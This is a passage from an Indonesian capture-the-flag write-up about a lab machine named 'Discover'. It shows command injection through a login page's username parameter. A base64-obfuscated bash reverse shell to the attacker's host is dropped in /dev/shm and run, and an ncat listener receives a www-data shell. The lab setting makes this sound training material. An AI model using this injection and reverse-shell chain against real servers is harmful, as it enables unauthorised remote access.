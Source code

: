 ### /dev/shm - shared memory

karena semua directory dalam satu sistem tidak ada yang bisa entah karena apa, maka saya mencoba untuk menaruh file script ke dalam */dev/shm* directory agar bisa dieksekusi.

```sh
╭─ via [machines/discover]
╰─ python -c 'import urllib.parse; string = "echo \"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMS8xMjM0NSAwPiYxCg==\" | base64 -d > /dev/shm/shell.sh"; print(urllib.parse.quote_plus(string))'
echo+%22L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMS8xMjM0NSAwPiYxCg%3D%3D%22+%7C+base64+-d+%3E+%2Fdev%2Fshm%2Fshell.sh
╭─ via [machines/discover]
╰─ curl -s 'http://log.discover.hmv/index.php?username=echo+%22L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMS8xMjM0NSAwPiYxCg%3D%3D%22+%7C+base64+-d+%3E+%2Fdev%2Fshm%2Fshell.sh&password=aaaaaaaaaaa'
<html>
  <head>
    <title>Discover login</title>
  </head>
  <body>
    <div style="background-color:#afafaf;padding:15px;border-radius:20px 20px 0px 0px">
    </div>
    <div style="background-color:#c9c9c9;padding:20px;">
      <h1 align="center">Login as Discover</h1>
    <form align="center" action="index.php" method="$_GET">
      <label align="center">Username:</label><br>
      <input align="center" type="text" name="username" value="Discover"><br>
      <label>Password:</label><br>
      <input align="center" type="password" name="password" value=""><br>
    <input align="center" type="submit" disabled="disabled" value="Submit">

    </form>
  </div>
  <div style="background-color:#ecf2d0;padding:20px;border-radius:0px 0px 20px 20px" align="center">
      </div>
  </body>
</html>
╭─ via [machines/discover]
╰─ python -c 'import urllib.parse; string = "bash /dev/shm/shell.sh"; print(urllib.parse.quote_plus(string))'              
bash+%2Fdev%2Fshm%2Fshell.sh
╭─ via [machines/discover]
╰─ curl -s "http://log.discover.hmv/index.php?username=bash+%2Fdev%2Fshm%2Fshell.sh&password=aaaaaaaaaaa"

--------------
---- NCAT ----
--------------

╭─ via [machines/discover]
╰─ ncat -nvlp 12345
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::12345
Ncat: Listening on 0.0.0.0:12345
Ncat: Connection from 192.168.56.8.
Ncat: Connection from 192.168.56.8:33140.
bash: cannot set terminal process group (475): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debian:/var/www/html/botdiscover$ 

```
boom!
